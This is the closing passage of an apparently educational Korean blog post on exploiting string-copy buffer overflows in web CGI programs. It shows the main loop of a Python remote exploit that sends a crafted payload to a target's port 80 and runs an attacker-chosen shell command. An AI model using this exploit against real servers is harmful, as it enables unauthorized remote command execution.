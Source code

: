 ```python
    while True:
        stack  = 0xbefe1dd4
        pload  = payload(stack, leave, dummy_len)
        param  = form_param(pload, spray())
        packet = form_packet(ip, param, command)
        p = remote(ip, 80)
        p.send(packet)
        r = p.recv()
        p.close()
        if r.find(b"200 OK") != -1:
            break

    log.info("Success!")

if __name__ == "__main__":
    if (len(sys.argv) == 3):
        exploit(sys.argv[1], sys.argv[2])
    else:
        print("{} [target-ip] [shell command]".format(sys.argv[0]))
```



## 끝내면서

CGI를 공격하는 방법에 대해 알아보았습니다. 일반적으로 웹 CGI 프로그램 혹은 CGI는 문자열을 처리하는 코드가 많습니다. 문자열을 처리하는 코드에서 주로 발생할 수 있는 String copy buffer overflow의 공격 방법에 대해 알아보았고, 안정적인 공격 코드를 작성하는 법에 대해 알아 보았습니다.

추가적인 질문 사항과 수정사항은 dhkim@stealien.com으로 남겨 주시면 감사하겠습니다.

------

[^`1]: [Wikipedia: 공용 게이트웨이 인터페이스](https://ko.wikipedia.org/wiki/공용_게이트웨이_인터페이스)
[^2]: https://www.lighttpd.net/
[^3]: [CGI Envrionment Variables](http://www.cgi101.com/book/ch3/text.html)
[^4]: [strcat](https://man7.org/linux/man-pages/man3/strcat.3.html)
[^5]: [Buffer overflow](https://ko.wikipedia.org/wiki/%EB%B2%84%ED%8D%BC_%EC%98%A4%EB%B2%84%ED%94%8C%EB%A1%9C)

[^6]: [Return oriented programming]([https://ko.wikipedia.org/wiki/%EB%B0%98%ED%99%98_%EC%A7%80%ED%96%A5%ED%98%95_%ED%94%84%EB%A1%9C%EA%B7%B8%EB%9E%98%EB%B0%8D](https://ko.wikipedia.org/wiki/반환_지향형_프로그래밍))
